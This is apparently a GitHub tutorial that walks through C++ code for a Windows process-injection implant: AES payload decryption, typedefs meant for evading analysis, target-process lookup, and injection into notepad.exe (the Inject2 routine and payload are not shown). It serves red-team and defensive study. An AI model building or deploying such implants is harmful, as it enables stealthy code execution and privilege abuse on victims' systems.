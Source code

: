 # Wumbobfuscating Process Injection Techniques
The C/C++ code exemplifying the process injection techniques below was originally written by [Sektor7 Institute](https://institute.sektor7.net/) within their [Malware Development Essentials](https://institute.sektor7.net/courses/red-team-operator-malware-development-essentials) and [Malware Development Intermediate](https://institute.sektor7.net/courses/rto-maldev-intermediate) courses. The explanations and analysis of the code are entirely my own.

## Background
Process injection describes a collection of attack techniques involving the execution of arbitrary code into a live process. Beyond the execution of arbirtrary code, successful process injection may lead to privilege escalation and/or access to the system/network resources of a hijacked process. A multitude of process injection techniques exist, several of which will be disussed and exemplified here.

Process injection is defined in the MITRE ATT&CK Framework as [T1055](https://attack.mitre.org/techniques/T1055/).

The development process below will begin with a process injection implant template, and continue with several insertable injection techniques.

## Developing Process Injection Techniques

### Process Injection Template
This template utilizes AES encryption to obfuscate an injected payload, however, a payload is not provided. Therefore, the template assumes that the provided payload is AES encrypted.

The implant payload, payload size, and decryption key are stored in separate variables at the start of the program.

```c++
// Credit: reenz0h (@sektor7net), RTO Malware Development Essentials course

#include <winternl.h>
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>
#include <wincrypt.h>
#pragma comment (lib, "crypt32.lib")
#pragma comment (lib, "advapi32")

// Shellcode / Payload
unsigned char payload[] = { };
unsigned char key[] = { };

unsigned int payload_len = sizeof(payload);
```

#### Process Injection Stages
Process injection typically begins when a malicious process is spawned. Afterward, the injection technique itself relies on several successful stages taking place. Each stage can be accomplished via multiple Windows API functions. A brief explanation of the stages and common functions leveraged to execute them is below:

1. [`CreateToolhelp32Snapshot()`](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot), [`EnumProcesses()`](https://docs.microsoft.com/en-us/windows/win32/api/psapi/nf-psapi-enumprocesses) - A list of running processes is generated.
2. [`OpenProcess()`](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) - A handle is opened to a target process.
3. [`VirtualAllocEx()`](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) - An empty buffer of memory is allocated within the a target process.
4. [`WriteProcessMemory()`](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) - The payload is written into the allocated memory within the target process.
5. [`CreateRemoteThread()`](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread), [`RtlCreateUserThread()`](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FExecutable%20Images%2FRtlCreateUserThread.html), [`NtCreateThreadEx()`](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FExecutable%20Images%2FRtlCreateUserThread.html) - The payload written in the allocated memory of the target process is executed.

#### Process Injection Function Typedef
Key process injection functions are highly recognizable both by automated malware analysis engines and individual analysts. In order to best organize and eventually obfuscate these functions, `typedef` can be used to create individual types containing the values of these functions. The precise use case for this will become more clear further into the program.

```c++
typedef struct _CLIENT_ID {
	HANDLE UniqueProcess;
	HANDLE UniqueThread;
} CLIENT_ID, *PCLIENT_ID;

typedef LPVOID (WINAPI * VirtualAlloc_t)(
	LPVOID lpAddress,
	SIZE_T dwSize,
	DWORD  flAllocationType,
	DWORD  flProtect);
	
typedef VOID (WINAPI * RtlMoveMemory_t)(
	VOID UNALIGNED *Destination, 
	const VOID UNALIGNED *Source, 
	SIZE_T Length);

typedef FARPROC (WINAPI * RtlCreateUserThread_t)(
	IN HANDLE ProcessHandle,
	IN PSECURITY_DESCRIPTOR SecurityDescriptor OPTIONAL,
	IN BOOLEAN CreateSuspended,
	IN ULONG StackZeroBits,
	IN OUT PULONG StackReserved,
	IN OUT PULONG StackCommit,
	IN PVOID StartAddress,
	IN PVOID StartParameter OPTIONAL,
	OUT PHANDLE ThreadHandle,
	OUT PCLIENT_ID ClientId);

typedef NTSTATUS (NTAPI * NtCreateThreadEx_t)(
	OUT PHANDLE hThread,
	IN ACCESS_MASK DesiredAccess,
	IN PVOID ObjectAttributes,
	IN HANDLE ProcessHandle,
	IN PVOID lpStartAddress,
	IN PVOID lpParameter,
	IN ULONG Flags,
	IN SIZE_T StackZeroBits,
	IN SIZE_T SizeOfStackCommit,
	IN SIZE_T SizeOfStackReserve,
	OUT PVOID lpBytesBuffer);
```

#### AES Decryption
The AES decryption function takes the AES-encrypted payload, the payload length, the decryption key, and the key length. It then decrypts the payload and destroys the contents of the key and the associated hash data.

```c++
int AESDecrypt(char * payload, unsigned int payload_len, char * key, size_t keylen) {
	HCRYPTPROV hProv;
	HCRYPTHASH hHash;
	HCRYPTKEY hKey;

	if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)){
			return -1;
	}
	if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)){
			return -1;
	}
	if (!CryptHashData(hHash, (BYTE*) key, (DWORD) keylen, 0)){
			return -1;              
	}
	if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0,&hKey)){
			return -1;
	}
	
	if (!CryptDecrypt(hKey, (HCRYPTHASH) NULL, 0, 0, (BYTE *) payload, (DWORD *) &payload_len)){
			return -1;
	}
	
	CryptReleaseContext(hProv, 0);
	CryptDestroyHash(hHash);
	CryptDestroyKey(hKey);
	
	return 0;
}
```

#### Process Targeting
In reference to Stages 1-2 above, the generation of a list of running processes and the opening of a handle to a target process is performed by the following `FindTarget()` function. `FindTarget()` takes a name of a function as an argument, and ultimately seeks to return an integer of the target Process ID (PID), which will subsequently be used for injection.

In order to accomplish this, `FindTarget()` instantiates a handle (`hProcSnap`), a `PROCESSENTRY32` size variable (`pe32`), and a Process ID (`pid`). It then defines the handle based on the output of [`CreateToolhelp32Snapshot()`](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot) with the `TH32CS_SNAPPROCESS` argument to include all processes in the system in the snapshot. The `pe32` variable then stores the size of this snapshot for future use.

Iterating through the processes in the snapshot requires use of the [`Process32First()`](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32first) and [`Process32Next()`](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32next) functions, which both take the `hProcSnap` variable storing the snapshot and the address of the `pe32` variable, which contains the size of the snapshot. `Process32Entry` begins the iteration in an initial `if` statement that checks to ensure that all required variables are present. If they are, a `while` loop is implemented to run the `Process32Next()` iteration and compare the process name argument provided to `FindTarget()` with the current iterated process name (`pe32.szExeFile`). [`lstrcmpiA`](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-lstrcmpia) is used to make this comparison. When the comparison is successful, the Process ID (`pid`) stored in (`pe32.th32ProcessID`) is stored in a separate variable and returned, and the handle to the process snapshot is closed.. If not matching process is found, then the function breaks.

```c++
int FindTarget(const char *procname) {

        HANDLE hProcSnap;
        PROCESSENTRY32 pe32;
        int pid = 0;
                
        hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
        if (INVALID_HANDLE_VALUE == hProcSnap) return 0;
                
        pe32.dwSize = sizeof(PROCESSENTRY32); 
                
        if (!Process32First(hProcSnap, &pe32)) {
                CloseHandle(hProcSnap);
                return 0;
        }
                
        while (Process32Next(hProcSnap, &pe32)) {
                if (lstrcmpiA(procname, pe32.szExeFile) == 0) {
                        pid = pe32.th32ProcessID;
                        break;
                }
        }
                
        CloseHandle(hProcSnap);
                
        return pid;
}
```

#### Payload Writing & Execution

```c++
int main(void) {
    
	int pid = 0;
    HANDLE hProc = NULL;

	pid = FindTarget("notepad.exe");

	if (pid) {
		printf("Notepad.exe PID = %d\n", pid);

		// try to open target process
		hProc = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | 
						PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
						FALSE, (DWORD) pid);

		if (hProc != NULL) {
			Inject2(hProc, payload, payload_len);
			CloseHandle(hProc);
		}
	}
	return 0;
}
```
